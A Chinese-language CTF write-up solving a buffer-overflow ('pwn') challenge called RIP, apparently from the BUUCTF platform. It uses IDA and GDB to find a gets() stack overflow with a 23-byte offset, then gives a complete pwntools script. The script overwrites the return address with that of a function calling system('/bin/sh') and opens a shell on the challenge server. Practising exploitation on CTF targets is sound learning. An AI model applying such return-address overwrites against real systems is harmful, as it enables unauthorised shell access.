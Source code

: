 # RIP

## 分析程序

### IDA 分析

使用 IDA 反编译程序，得到下图；然后 可以分析知道，该程序 即简单的输入，然后输出；**由于`gets()`没有对输入做边界检查所以存在栈溢出的可能**

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-09-05_19-37-49.png)

`F5`得到C语言代码，如下所示：

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-09-05_19-38-04.png)

进一步查看栈的情况：

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-09-05_19-42-44.png)

由此可以知道，输入到返回地址差距为 **23个字节**；进一步查看，发现该函数中存在 `fun`函数调用了`system("/bin/sh")`;所以我们需要在返回地址覆盖`fun`函数的起始地址，即`0x401186`如下所示

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-09-05_19-44-27.png)





### GDB 分析

首先是 使用`gdb`调试

```shell
gdb pwn1  ## gdb 加载pwn1
info function  #查看该程序中有的函数信息
```

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-09-05_19-49-46.png)

```shell
disass main #查看 main 函数的汇编代码
disass fun  #查看 fun 函数的汇编代码
```

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-09-05_19-51-03.png)



通过 分析汇编代码画出堆栈图得到 栈溢出偏移值 为23



## 堆栈图

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-09-05_20-05-05.png)

## Payload

```python
from pwn import *

#io = process("/home/always/Desktop/pwn1")
io = remote("node4.buuoj.cn","29681")

payload = 23*b"A" + p64(0x401187)

io.sendline(payload)

io.interactive()
```


